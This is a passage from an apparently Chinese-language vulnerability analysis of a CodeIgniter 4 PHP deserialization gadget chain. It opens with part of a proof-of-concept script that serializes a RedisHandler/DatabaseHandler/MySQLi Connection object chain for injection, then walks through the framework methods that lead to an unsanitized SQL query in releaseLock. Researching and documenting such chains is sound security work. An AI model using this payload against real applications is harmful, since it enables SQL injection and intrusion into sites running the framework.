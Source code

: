 ```<?php
		$this->platform = "mysql";
		$this->db = $db;
	}
}

namespace CodeIgniter\Database\MySQLi;
class Connection {
	public $queryClass;
	public $connID;
	public $pretend;
	public $swapPre;
	function __construct(){
		$this->queryClass = "\CodeIgniter\Database\Query";
		$this->connID = "xxx";
		$this->pretend = false;
		$this->swapPre = [];
	}
}

$a = serialize(new \CodeIgniter\Cache\Handlers\RedisHandler(new \CodeIgniter\Session\Handlers\DatabaseHandler(new \CodeIgniter\Database\MySQLi\Connection())));
echo $a;
echo "<hr>";
echo urlencode($a);
```
前面的调用链部分还是和上面的任意文件删除的反序列化调用链相似。
第一个是/system/Cache/Handlers/RedisHandler.php类的__destruct方法，$this->redis未经合适的验证，直接调用了close方法
```	public function __destruct()
	{
		if ($this->redis) // @phpstan-ignore-line
		{
			$this->redis->close(); //$this->redis未经合适的验证，直接调用了close方法
		}
	}
```
第二个是\system\Session\Handlers\DatabaseHandler.php类中的close方法，调用了本来的releaseLock方法。
```	public function close(): bool
	{
		return ($this->lock && ! $this->releaseLock()) ? $this->fail() : true;
	}
```
继续跟踪releaseLock方法，这里的$this->db未经验证的调用了query方法。
```	protected function releaseLock(): bool
	{
		if (! $this->lock)
		{
			return true;
		}

		if ($this->platform === 'mysql')
		{
			if ($this->db->query("SELECT RELEASE_LOCK('{$this->lock}') AS ci_session_lock")->getRow()->ci_session_lock)
			{
				$this->lock = false;
				return true;
			}

			return $this->fail();
		}

		if ($this->platform === 'postgre')
		{
			if ($this->db->simpleQuery("SELECT pg_advisory_unlock({$this->lock})"))
```